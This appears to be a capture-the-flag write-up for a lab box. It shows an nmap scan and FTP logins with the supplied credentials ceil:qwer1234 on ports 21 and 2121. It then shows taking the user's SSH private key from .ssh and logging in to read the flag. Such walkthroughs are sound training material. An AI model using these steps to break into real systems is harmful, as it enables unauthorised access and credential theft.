 ----
First enumerate the services on the target

```bash
sudo nmap -sS -sV <target>
```

**PORT     STATE SERVICE VERSION                                                                 
21/tcp   open  ftp                                                                             
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)            
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)                                          
2121/tcp open  ftp   **

Connecting to port 21 with known credentials `ceil`:`qwer1234`

```bash
ftp ceil@<target>
```

Listing directories

```bash
ftp> ls -la
229 Entering Extended Passive Mode (|||7235|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 root     root         4096 Nov 10  2021 .
drwxr-xr-x   2 root     root         4096 Nov 10  2021 ..
226 Transfer complete
```

Nothing. Try port 2121

```bash
ftp ceil@<target> 2121
```

Listing directories

```bash
ftp> ls -la
229 Entering Extended Passive Mode (|||48435|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 .
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 ..
-rw-------   1 ceil     ceil          294 Nov 10  2021 .bash_history
-rw-r--r--   1 ceil     ceil          220 Nov 10  2021 .bash_logout
-rw-r--r--   1 ceil     ceil         3771 Nov 10  2021 .bashrc
drwx------   2 ceil     ceil         4096 Nov 10  2021 .cache
-rw-r--r--   1 ceil     ceil          807 Nov 10  2021 .profile
drwx------   2 ceil     ceil         4096 Nov 10  2021 .ssh
-rw-------   1 ceil     ceil          759 Nov 10  2021 .viminfo
226 Transfer complete
```

Found `.ssh` directory. Change directory to `.ssh` and `GET` id_rsa key.

Give the private key the right permission

```bash
chmod 600 id_rsa
```

And connect to the target

```bash
ssh -i id_rsa ceil@<target>
```

Found flag in `/home/flag` directory from user `ceil`
